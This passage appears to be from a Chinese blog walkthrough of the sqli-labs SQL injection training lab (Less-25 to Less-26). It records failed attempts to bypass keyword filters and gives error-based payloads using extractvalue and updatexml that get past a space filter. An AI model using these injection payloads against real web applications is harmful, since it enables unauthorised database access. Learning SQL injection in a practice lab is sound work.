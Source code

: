 ### 大小写变形

Or oR

aND And



<img src="https://i-blog.csdnimg.cn/blog_migrate/499003ee2c1dbf4ce876ac76082f9167.png" alt="" style="max-height:241px; box-sizing:content-box;" />


不行

### 编码

hex

url

但是都不行

## Less-25a



<img src="https://i-blog.csdnimg.cn/blog_migrate/13f61328aaccf7d4555cf50a4a1367ae.png" alt="" style="max-height:530px; box-sizing:content-box;" />


还是 or 和  and   通过判断是整数型

```cobol
?id=(2-1)
```

通过这个判断即可

然后继续注入即可

## Less-26  空格、union和select的过滤



<img src="https://i-blog.csdnimg.cn/blog_migrate/0ae0ff22742923c5e6c6dff7f9a982a7.png" alt="" style="max-height:636px; box-sizing:content-box;" />


过滤了空格和一些命令

我们试试看

绕过空格

我们可以使用()来实现

```cobol
这道题我的环境中只可以使用报错注入 无法绕过空格过滤
?id=1'||(extractvalue(1,0x7e))||'1
 
?id=1'||(updatexml(1,0x7e,3))||'1
 
group by 的无法使用
```
